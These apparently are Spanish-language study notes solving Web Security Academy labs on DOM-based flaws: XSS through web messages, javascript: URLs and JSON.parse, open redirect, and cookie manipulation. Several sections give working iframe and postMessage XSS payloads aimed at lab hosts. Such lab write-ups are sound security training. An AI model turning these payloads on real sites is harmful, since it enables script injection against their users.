 Es una representación estructurada de un documento HTML o XML que permite a los desarrolladores manipular su contenido y estructura de manera programática mediante lenguajes de scripting como JavaScript.
# DOM XSS using web messages

![[01.DOM-UsingWebMessages.png]]

```js
<iframe src="https://TuLaboratorio.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```

![[02.DOM-UsingWebMessages.png]]
![[03.DOM-UsingWebMessages.png]]

# DOM XSS utilizando mensajes web y una URL de JavaScript

![[01.DOM-UsingMessagesAndURL(Js).png]]

```
<iframe src="https://Tulaboratorio.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

![[02.DOM-UsingMessagesAndURL(Js).png]]
![[03.DOM-UsingMessagesAndURL(Js).png]]

# DOM XSS usando mensajes web y`JSON.parse`

Crea un `iframe` y lo manipula en respuesta a mensajes recibidos a través del evento `message`. Dependiendo del tipo de mensaje recibido, realiza diferentes acciones como hacer scroll, cambiar la URL del `iframe` o ajustar sus dimensiones.

![[01.DOM-XSS_JASON.parse.png]]

```
<iframe src=https://Tulaboratorio.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

![[02.DOM-XSS_JASON.parse.png]]
![[03.DOM-XSS_JASON.parse.png]]

# Redirección abierta basada en DOM

El `url`parámetro contiene una vulnerabilidad de redirección abierta que le permite cambiar el lugar al que lleva al usuario el enlace "Volver al blog".

![[01.RedireccionBasadaconDOM.png]]
![[02.RedireccionBasadaconDOM.png]]

# Manipulación de cookies basada en DOM

![[01.ManipulaciondeCookies.png]]

```js
<iframe src="https://Tulaboratorio.web-security-academy.net/product?productId=2&'><script>print()</script>" onload="if(!window.x)this.src='https://Tulaboratorio.web-security-academy.net/';window.x=1;">
```

![[02.ManipulaciondeCookies.png]]
